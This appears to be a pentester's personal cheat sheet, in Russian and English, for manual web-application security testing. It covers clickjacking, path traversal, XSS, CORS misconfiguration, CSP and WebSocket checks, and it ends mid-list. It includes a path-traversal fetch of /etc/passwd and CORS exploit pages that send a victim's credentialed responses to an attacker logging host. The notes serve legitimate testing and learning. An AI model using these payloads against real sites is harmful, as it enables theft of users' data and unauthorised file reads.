

# Сбор информации о приложении

### Analyzing Source Code for Vulnerabilities
Load source code
Use IDE debugger to analyze
Find authorization, authentication, redirects, secrets, user input logic, pages without authentication

### Анализ заголовков

### Анализ памяти и кеша

### DFD
Через консоль или скачать приложение и добавить в код `debugger;`
Понять точки ввода и точки вывода (отображения)
Определить где проводится санитизация и валидация
    Добавить <h1></h2> теги проверить отображается
    Добавить `< : ? / "` символ проверить какие симловы преобразованы
Проверить валидация и санитизация происходит до отправки данных на сервер (те на фронте)
Если на фронте - понять как это можно обойти:
- использовать прокси для перехвата и модификации данных
- переопределить поведение функции в консоли браузера `function vulnerableFunction(){console.log(h3cker);}`
https://crunchify.com/how-to-refresh-div-content-without-reloading-page-using-jquery-and-ajax/
- переопределить поведение переменной в консоли браузера
- переопределить DOM в консоли браузера
- использовать расширения браузера (https://www.tampermonkey.net/) или написать свое

### DAST
Fuzzing

# Manual testing

### Clickjacking
Use https://portswigger.net/burp/documentation/desktop/tools/clickbandit
Или через DevTools через соседнюю вкладку сформировать новый элемент:
```js
var iframe = document.createElement('iframe');
iframe.src = 'https://target.local'; // Replace URL
iframe.style.width = '400px';
iframe.style.height = '400px';
document.body.appendChild(iframe);
```

PoC:
```html
<html>
    <head>
        <title>Clickjack test web page</title>
    </head>
    <body>
        <iframe src="https://target.local" width="400" height="400"></iframe>
    </body>
</html>
```

### Path Traversal
```js
//1. Enum path: 
urls = []
$$('*').forEach(element => {
  urls.push(element.src)
  urls.push(element.href)
  urls.push(element.url)
}); console.log(...new Set(urls)) 

// 2. Fuzz param with list YAML/LFI.txt
// 3. Exploit: 
fetch('https://site/image?filename=../../../etc/passwd').then(response => response.text()).then(data => console.log(data));"
```

### XSS
Открыть DOM Invader для поиска DOM XSS
Открыть devtools и найти Global Event Listener
    window.postMessage('TEST')
Найти точки ввода в приложении с целью поиска reflected XSS / store XSS 
    <b>blablabla</b>
    {{ 9 * 9}} 
Использовать полезные иные нагрузки https://portswigger.net/web-security/cross-site-scripting/cheat-sheet

### CORS misconfiguration
Политика обходящая SOP. Цель дать доступ другим сайтам свои ресурсы к сайту хакера

#### Wildcard
Открыть сайт в консоли разработчика отправить легитимный запрос и скопировать его "Copy as fetch"
Открыть другой сайт в соседней вкладкке и отправить запрос fetch("https://target.site", {"headers: {}"})

#### CORS vulnerability with basic origin reflection
Получить любой ответ от сервера
Проверить наличие заголовков Access-Control-Allow-...
Вставить через прокси заголовок `Origin: https://hello.world` ИЛИ `null`
Уязвим - если в ответе появился `Access-Control-Allow-Origin: https://hello.world`

```html
<html><body><script>
        var req = new XMLHttpRequest();
        req.onload = reqListener;
        req.open('get','https://vulnerable-website.com/sensitive-victim-data',true);
        req.withCredentials = true;
        req.send();
        function reqListener() {
            location='//malicious-website.com/log?key='+this.responseText;
        };
</script></body></html>
```
Уязвим если в дополнение к изменению поля `Origin` появляется `Access-Control-Allow-Credentials: true`
Тогда можно сделать атаку с передачей cookie 
```html
<html>
    <iframe sandbox="allow-scripts allow-top-navigation allow-forms" srcdoc="<script>
            var req = new XMLHttpRequest();
            req.onload = reqListener;
            req.open('get','X.web-security-academy.net/accountDetails',true);
            req.withCredentials = true;
            req.send();
            function reqListener() {
                location='X.exploit-server.net/log?key='+encodeURIComponent(this.responseText);
            };
        </script>"></iframe>
</html>
```

#### Exploiting XSS via CORS trust relationship
https://portswigger.net/web-security/cross-site-scripting/cheat-sheet

```
>>> GET /api/requestApiKey HTTP/1.1
Host: vulnerable-website.com
Origin: https://subdomain.vulnerable-XSS-website.com
Cookie: sessionid=...

<<< HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://subdomain.vulnerable-XSS-website.com
Access-Control-Allow-Credentials: true
```
Exploit:
https://subdomain.vulnerable-website.com/?xss=<script>cors-stuff-here</script>

# CSP
Test payload for test SCP. Or use https://csp-evaluator.withgoogle.com/
Risks: XSS, Clickjacking, Injection

```js
# Basic
eval("alert('Hello World')");

# Test script-src:
var script = document.createElement('script');
script.src = 'https://ajax.googleapis.com/ajax/libs/jquery/1.11.1/jquery.min.js';
document.head.appendChild(script);

# Test img-src:
var img = document.createElement('img');
img.src = 'http://l.yimg.com/a/i/us/nws/weather/gr/30d.png';
document.body.appendChild(img);

# Test style-src:
var style = document.createElement('style');
style.innerHTML = '@import url(http://yui.yahooapis.com/pure/0.5.0/pure-min.css);';
document.head.appendChild(style);

# addEventListener
window.addEventListener('securitypolicyviolation', function(event) {
  console.log('CSP Violation:', event.message);
}, true);
```

# WebSocket
1. Intercepting and modifying WebSocket messages
{"message":"Test"} => <td>Test</td>
{"message":""} => alert(1) XSS

2. Manipulating the WebSocket handshake to exploit vulnerabilities
add via proxy headers: `X-Forwarded-For` `Origin` `Referer` in order to avoid \ break logic.

3. 